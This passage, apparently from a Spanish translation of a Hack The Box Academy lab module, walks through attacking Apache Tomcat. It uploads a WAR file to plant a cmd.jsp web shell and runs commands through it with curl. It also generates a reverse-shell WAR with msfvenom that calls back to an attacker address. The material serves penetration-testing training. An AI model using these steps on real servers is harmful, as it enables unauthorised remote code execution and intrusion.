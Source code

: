 Hacer clic en`Browse`Para seleccionar el archivo .war y luego haga clic en`Deploy`.

![](https://academy.hackthebox.com/storage/modules/113/mgr_deploy.png)

Este archivo se carga a la GUI del administrador, después de lo cual el`/backup`La aplicación se agregará a la tabla.

![](https://academy.hackthebox.com/storage/modules/113/war_deployed.png)

Si hacemos clic en`backup`, seremos redirigidos a`http://web01.inlanefreight.local:8180/backup/`Y consigue un`404 Not Found`error. Necesitamos especificar el`cmd.jsp`Archivo en la URL también. Navegar por`http://web01.inlanefreight.local:8180/backup/cmd.jsp`Nos presentará un shell web que podemos usar para ejecutar comandos en el servidor Tomcat. Desde aquí, podríamos actualizar nuestro shell web a un shell inverso interactivo y continuar. Como ejemplos anteriores, podemos interactuar con este shell web a través del navegador o usar`cURL`en la línea de comando. ¡Prueba ambos!

Atacando a Tomcat

```
xnoxos@htb[/htb]$ curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
Command: id<BR>
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

</pre>
</BODY></HTML>

```

Para limpiarnos después de nosotros, podemos volver a la página principal del administrador de Tomcat y hacer clic en el`Undeploy`botón al lado del`backups`Aplicación después, por supuesto, observando el archivo y la ubicación de carga para nuestro informe, que en nuestro ejemplo es`/opt/tomcat/apache-tomcat-10.0.10/webapps`. Si hacemos un`ls`En ese directorio desde nuestro shell web, veremos el cargado`backup.war`archivo y el`backup`directorio que contiene el`cmd.jsp`guión y`META-INF`creado después de que la aplicación se implementa. Haciendo clic en`Undeploy`Por lo general, eliminará el archivo de guerra cargado y el directorio asociado con la aplicación.

También podríamos usar`msfvenom`para generar un archivo de guerra malicioso. La carga útil[java/jsp_shell_reverse_tcp](https://github.com/iagox86/metasploit-framework-webexec/blob/master/modules/payloads/singles/java/jsp_shell_reverse_tcp.rb)ejecutará un shell inverso a través de un archivo JSP. Explore la consola Tomcat e implementa este archivo. Tomcat extrae automáticamente el contenido del archivo de guerra y lo implementa.

Atacando a Tomcat

```
xnoxos@htb[/htb]$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.warPayload size: 1098 bytes
Final size of war file: 1098 bytes

```

